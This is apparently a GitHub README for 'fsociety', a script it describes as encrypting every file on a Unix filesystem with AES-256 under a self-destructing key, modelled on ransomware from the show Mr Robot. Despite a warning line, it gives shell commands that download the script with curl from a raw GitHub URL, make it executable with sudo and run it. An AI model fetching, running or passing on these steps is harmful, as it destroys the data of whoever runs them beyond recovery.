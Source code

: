 # fsociety
WARNING: do not actually execute this. You will not be able to recover the files.

This is intended to encrypt every bit of data in a unix filesystem using 256-bit AES with 
a self-destructing, randomly generated key.

The fuxsocy.py script is based on Darlene's malware shown in Mr Robot

S2E1:

![alt text](https://i.imgur.com/6RIogYa.jpg)

```shell
curl https://raw.githubusercontent.com/joekendal/fsociety/master/fuxsocy.py
```
```shell
sudo chmod +x fuxsocy.py
```
```shell
./fuxsocy.py
```
